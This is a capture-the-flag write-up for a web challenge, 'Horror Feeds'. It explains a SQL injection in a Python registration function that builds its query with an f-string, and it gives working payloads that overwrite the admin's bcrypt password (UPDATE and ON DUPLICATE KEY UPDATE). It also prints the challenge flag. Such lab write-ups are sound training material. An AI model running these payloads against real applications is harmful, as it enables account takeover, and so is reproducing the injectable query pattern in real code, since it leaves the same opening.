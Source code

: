# CTFname - Horror Feeds

* **Category:** Category
* **Points:** 200
* **Author:** xcl0w3n

## Challenge

> An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?

## Solution
```python
./web_horror_feeds/challenge/application/database.py

def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

* As shown above there is a `register()` function which requires the paramaters `(username, password)` so it can be used in the query to store credentials to a database.
* The vulnerability occurs as there is no sanitization of the `username` therefore makes it possible to execute malicious SQL statements

![image](https://user-images.githubusercontent.com/78451563/198285821-bb4f404b-9c25-4976-bc96-ae7db112453d.png)

* To try login as admin we could try to update the admin's bcrypt password as creating another admin entry wouldn't work
</br>

### SQLi exploitation steps

![image](https://user-images.githubusercontent.com/78451563/198289332-b30893d0-8bb9-49af-b75b-c3bb43234e5e.png)

1. Firstly i ended the first INSERT query to make it easier:
```sql
admin","password");-- -
```
2. Now to create our custom password by using the `generate_password_hash()`:


```python
def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()

def verify_hash(password, passhash):
    return bcrypt.checkpw(password.encode(), passhash.encode())
```
* The server verifies our password using `bcrypt.checkpw` which involves the comparison of the already hashed stored password and the hashed entered password.

![image](https://user-images.githubusercontent.com/78451563/198292904-6832a28a-f3c7-4679-9a69-ff4a80d3d3ff.png)

* We can forge a password by utilising the `generate_password_hash(password)` function

4. Now to update the admins bcrypt password. I used `UPDATE` to change the admin's password and `COMMIT` to save the changes:

![image](https://user-images.githubusercontent.com/78451563/198295460-ebb27271-0f2e-48a3-82b2-be162b4cf988.png)

```sql
UPDATE users SET password='$2b$12$/SM/o3oxLx.rpLNtBrhrkOCXxK/myFjO7DsE83Xws95RSy8j8mjN6' WHERE username='admin'; COMMIT;-- -
```
5. Now to send to the server:

![image](https://user-images.githubusercontent.com/78451563/198296946-d034e2e8-6475-4daa-82c7-9a1310bc02aa.png)

![image](https://user-images.githubusercontent.com/78451563/198297003-93da0bb4-28e2-44d0-ac93-3ca2bbede074.png)

* While this does update the admin's password we get this error `Commands out of sync; you can't run this command now` meaning:
```
If you get Commands out of sync; you can’t run this command now in your client code, you are calling client functions in the wrong order.
```
* To resolve this error i used the `ON DUPLICATE KEY UPDATE` query.

[Payload Query Reference](https://chartio.com/resources/tutorials/how-to-insert-if-row-does-not-exist-upsert-in-mysql/)

```sql
ON DUPLICATE KEY UPDATE username='admin',password='$2b$12$XFj7IPgUFo4kI06hG9H5jOpoRPH3N5xqwF.tWdyefOJwiUOR6KCfa'
```

![image](https://user-images.githubusercontent.com/78451563/198306235-edbda84e-9564-461e-8102-e1da3745d3b8.png)

![image](https://user-images.githubusercontent.com/78451563/198306332-3b666681-382d-40b3-b736-8dd644feb4a1.png)


```
Flag: HTB{N3ST3D_QU3R1E5_AR3_5CARY!!!}
```
